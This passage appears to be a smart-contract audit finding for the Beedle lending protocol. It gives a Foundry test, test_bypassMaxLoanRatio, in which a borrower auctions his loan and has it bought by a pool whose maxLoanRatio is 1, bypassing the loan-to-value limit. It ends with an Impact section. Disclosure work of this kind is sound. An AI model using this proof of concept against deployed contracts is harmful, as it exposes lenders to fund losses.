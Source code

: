 ```
        lender.borrow(borrows);

        assertEq(collateralToken.balanceOf(address(lender)), 100 * 10 ** 18);
        (, , , , poolBalance, , , , ) = lender.pools(poolId);
        assertEq(poolBalance, 900 * 10 ** 18);
}
```
3. Paste this code into `Lender.t.sol`: https://github.com/Cyfrin/2023-07-beedle/blob/main/test/Lender.t.sol.
Right here the `borrower` starts the auction for his loan and call `buyLoan()` with the pool of `lender1`, which only has the `maxLoanRatio` value of 1. The test goes through successfully, meaning the loan is bought to the new pool and the `borrower` can now enjoy his high LTV loan being managed by the new pool (`lender1`)
```
function test_bypassMaxLoanRatio() public {
        test_borrowPoc();
        // accrue interest
        vm.warp(block.timestamp + 1 days);
        // kick off auction
        vm.startPrank(borrower);

        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;

        lender.startAuction(loanIds);

        vm.startPrank(lender1);
        Pool memory p = Pool({
            lender: lender1,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100 * 10 ** 18,
            poolBalance: 1000 * 10 ** 18,
            maxLoanRatio: 1 * 10 ** 18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        bytes32 poolId = lender.setPool(p);

        // warp to middle of auction
        vm.warp(block.timestamp + 12 hours);

        vm.startPrank(borrower);

        lender.buyLoan(0, poolId);
}
```
Use `forge test --mt test_bypassMaxLoanRatio` to run this test case.

## Impact
1. Borrower can give his high LTV loan to any pool with enough balance by calling `buyLoan()` to escape the risk of high LTV.
2. Anyone or the new lender himself/herself can buy the loan via `buyLoan()` without noticing the high LTV in it, which may lead to fund losing.
